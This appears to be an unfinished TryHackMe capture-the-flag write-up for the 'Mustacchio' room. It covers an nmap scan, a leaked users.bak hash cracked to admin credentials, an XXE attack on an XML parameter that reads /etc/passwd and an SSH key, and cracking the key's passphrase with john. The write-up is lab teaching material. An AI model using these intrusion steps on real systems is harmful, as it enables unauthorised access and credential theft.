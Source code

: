 # TryHackMe - Mustacchio

![Mustacchio](../.res/2023-07-12-16-24-19.png)

## Nmap

```bash
┌─[gabrielle@parrot]─[~]
└──╼ $sudo nmap -Pn -sV -sC -p- 10.10.55.96
Nmap scan report for 10.10.55.96
Host is up (0.22s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 581b0c0ffacf05be4cc07af1f188611c (RSA)
|   256 3cfce8a37e039a302c77e00a1ce452e6 (ECDSA)
|_  256 9d59c6c779c554c41daae4d184710192 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
| http-robots.txt: 1 disallowed entry 
|_/
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 456.90 seconds
```

## Port 80

We land here  
![landing page](../.res/2023-07-12-16-25-00.png)

When browsing around we can see that directory listing is enabled.  
We find file users.bak  

![users backup](../.res/2023-07-12-16-27-20.png)  

Here is the content of the file  

![admin](../.res/2023-07-12-16-28-26.png)  

If we enter the md5 hash in crackstation we find the password  

![crackstation](../.res/2023-07-12-16-29-53.png)  

So we have the following credentials `admin:bulldog19`

## Port 8765

We find the admin panel.  
![admin panel](../.res/2023-07-12-16-33-03.png)  
Let's try the credentials we found in the website  
We are logged in  
![admin](../.res/2023-07-12-16-34-01.png)  

If we inspect the request it seems to take an xml parameter  

```http
POST /home.php HTTP/1.1
Host: 10.10.55.96:8765
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.55.96:8765/home.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://10.10.55.96:8765
DNT: 1
Connection: close
Cookie: PHPSESSID=7jh5plvvh6o2lj6l01k5bfs3j6
Upgrade-Insecure-Requests: 1

xml=test
```

When we see xml we need to try XXE attacks.  
Also this snippet of code seems will prompt us for xml code  

```javascript
   <script type="text/javascript">
      //document.cookie = "Example=/auth/dontforget.bak"; 
      function checktarea() {
      let tbox = document.getElementById("box").value;
      if (tbox == null || tbox.length == 0) {
        alert("Insert XML Code!")
      }
  }
</script>
```

There's also a big hint in a comment in the page `<!-- Barry, you can now SSH in using your key!-->`  

This means if our xxe works we could try to find Barry's key

We can check the example `/auth/dontforget.bak`  

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

It's perfect for us we can use this for our attack  
After putting this in the text box we can see that it is sent url encoded in the parameter  

![xml](../.res/2023-07-12-17-29-16.png)  

Let's send this to repeater and play around with it  
We can modify the paylaod in the inspector like this  

![modify request with inspector](../.res/2023-07-12-17-30-41.png)  

This way we get the passwd file  
We indeed see a user Barry let's try and fetch his key  
And it works!  

![Barry's ssh key](../.res/2023-07-12-17-32-44.png)  

Let's try to connect on the server with it. It prompts for a password.  
Let's try to crack it with john the ripper.  

- `wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py`
- `python ssh2john.py barry-key > barry.hash`
- `john --wordlist=/usr/share/wordlists/rockyou.txt barry.hash `  

![ssh key pass cracked](../.res/2023-07-12-17-43-25.png)  

Here is the password `urieljames`  
And it works  
![barry](../.res/2023-07-12-17-44-37.png)  

And we get the user flag.

## COMING SOON